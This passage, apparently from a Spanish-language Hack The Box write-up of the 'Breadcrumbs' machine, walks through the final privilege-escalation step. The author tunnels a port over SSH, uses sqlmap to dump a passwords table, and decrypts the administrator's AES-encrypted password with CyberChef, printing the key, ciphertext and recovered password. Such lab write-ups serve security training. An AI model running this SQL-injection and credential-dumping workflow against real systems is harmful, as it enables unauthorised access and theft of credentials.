 ## SQLi guiado/auto

Para esto hacemos un fordward del puerto por ssh

```bash
ssh -f -N -L 1234:127.0.0.1:1234 development@breadcrumbs.htb
```

Verificamos con `netstat -antp`

![local_ssh](/assets/img/Linux/Breadcrumbs/local_ssh.png)

Ahora usamos `sqlmap` 

```bash
sqlmap -u "http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords" --dump
```



![sqli_guiado](/assets/img/Linux/Breadcrumbs/sqli_guiado.png)

```bash
Database: breadTable: passwords[1 entry]+----+---------------+------------------+----------------------------------------------+| id | account       | aes_key          | password                                     |+----+---------------+------------------+----------------------------------------------+| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |+----+---------------+------------------+----------------------------------------------+
```



# Administrator

Completando las piezas tenemos:

```text
ID = 1Account = AdministratorAES KEY = k19D193j.<19391(Password = H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=
```

El procedimiento es bastante sencillo

1. Desde el password lo desciframos con base64
2. El Output lo pasamos a AES, tanto el input como el ouput a raw, le pasamos la KEY y el IV tantos ceros como nos pide para sastifacer lo esperado.

* | [Password desde CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0)

Nota: Si estan muy inspirados, pueden hacer un script en python :D  importanto AES y Base64

Habemus password de Administrator : p@ssw0rd!@#$9890./

![root](/assets/img/Linux/Breadcrumbs/root.png)

Another machine pwnead!

![hacktheplanet](/assets/img/Linux/Breadcrumbs/hacktheplanet.gif)

